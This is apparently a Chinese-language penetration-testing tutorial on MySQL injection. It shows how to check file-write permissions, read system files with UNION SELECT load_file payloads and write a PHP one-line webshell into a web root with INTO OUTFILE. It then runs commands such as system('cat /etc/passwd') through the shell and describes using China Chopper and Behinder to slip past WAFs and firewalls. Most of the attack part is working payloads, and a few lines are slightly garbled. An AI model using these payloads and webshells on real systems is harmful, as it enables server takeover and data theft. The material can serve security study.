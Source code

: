 # 文件读写与木马植入

## 一、读写权限确认

```sql
show global variables like '%secure%';
# 查看mysql全局变量的配置，当输入以上命令后，结果
secure_file_priv = 空 的时候，任意读写
secure_file_priv = 某个路径的时候，只能在规定的路径下读写
secure_file_priv = NULL 不能读写
```

## 二、读取文件

- 利用SQL语句读取系统文件，先读取常规文件（明确路径），如果能成功读取，则继续读取其他文件；如果明确知道路径，则尝试爆破路径下的文件；如果不知道路径，则爆破路径。

```
-1' union select 1,2,3,load_file("c:/windows/service.inf"),5,6

-1' union select 1,2,3,load_file("D:/XamppNew/htdics/security/commin.php"),5,6
```

## 三、写入木马

```
例如：select "helloworld" into outfile "/opt/lampp/htdocs/security/muma.php"

-1 union select 1,2,3,4,5,"<?php eval($_GET['a']);?>" in to outfile "D:/XamppNew/htdocs/security/temp/muma.php"

如果列数未知，也可以不停尝试，注入一次，访问一次，确认是否注入成功

一句话木马：
<?php eval($_POST['a']);?>
eval可以将一段字符串当成代码来执行，如果用户可以直接 将这段有效的PHP代码传入后台，则可以执行任意代码或指令

/security/temp/muma/php?a=phpinfo();
/security/temp/muma/php?a=echo date('Y-m-d');
/security/temp/muma/php?a=system('ip addr');
/security/temp/muma/php?a=system('cat /etc/passwd');

以上为GET请求的方式，也可以用POST请求的方式，这样可以添加的载荷更大，可以上传大马，但建议通过curl下载的方式植入大马
-1 union select 1,2,3,4,5,"<?php eval($_POST['a']);?>" intooutfile "D:/XamppNew/htdocs/security/temp/muma.php"

也可以上传一句话木马后，通过中国菜刀连接以便于操作
```

## 四、中国菜刀

- 必须提前已经我去南城了木马植入然后才能使用。
- 木马必须是POST请求，参数自定义，在菜刀中给出正确的参数名。
- 菜刀采用Base64编码，相当于明文传输，目前已经被WAF进行防护了

## 五、冰蝎

- 冰蝎是加密传输，防火墙很难分析出流量特征，比较容易绕开防火墙
- 先上传一个冰蝎自己的带加密解密功能的shell脚本
- 上传shell的过程有以下方式
  - 直接在命令行运行命令按行用echo写入
  - 用curl通过公网进行远程文件下载
  - 用菜刀连接，然后基于菜刀直接上传shell
  - 如果目标站点存在文件上传漏洞，直接在文件上传的时候上传shell